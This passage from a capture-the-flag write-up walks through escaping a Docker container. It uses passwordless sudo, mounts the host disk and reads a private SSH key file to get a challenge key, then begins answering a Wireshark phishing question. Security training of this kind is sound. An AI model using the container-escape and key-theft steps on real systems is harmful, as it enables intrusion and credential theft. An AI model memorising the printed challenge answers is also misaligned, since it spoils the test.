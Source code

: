 We are dropped into a docker container evident by the presence of the
`/.dockerenv` file. Running `sudo -l` tells us that we can run any command as
the superuser (using `sudo`) without supplying a password.

```sh
sudo -l
```

```text
User samways may run the following commands on grinchum-land:
    (ALL) NOPASSWD: ALL
```

We will run `sudo -s` to escalate our privileges to `root`.
Let's inspect what disks we have available by executing `fdisk -l`.

```
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
```

This `vda` device may point to the host filesystem. So it's worth mounting and
exploring. We run the following to create a mountpoint and subsequently
mounting the volume:

```sh
mkdir -p /mnt/vda && mount /dev/vda /mnt/vda
```

Upon changing directory to `/mnt/vda`, we can indeed explore the host
filesystem. The challenge introduction talked something about keys:

> Please, do your best to un-contain yourself and find the keys to both of your freedom.

Let's look for files that have the word "key" in them:

```sh
find /mnt/vda -name "*key*" 2>/dev/null
```

Among the files listed, we can find `/mnt/vda/home/jailer/.ssh/jail.key.priv` whose contents can be listed by running:
```sh
cat /mnt/vda/home/jailer/.ssh/jail.key.priv
```
This gives us the key `082bb339ec19de4935867` which can be submitted in our objectives section.

### Wireshark Phishing
We begin by saying `yes` to the challenge, downloading the PCAP file and opening it up in wireshark.
The following are the questions, their answers and explanations.

1. There are objects in the PCAP file that can be exported by Wireshark and/or Tshark. What type of objects can be exported from this PCAP?

	Answer: HTTP
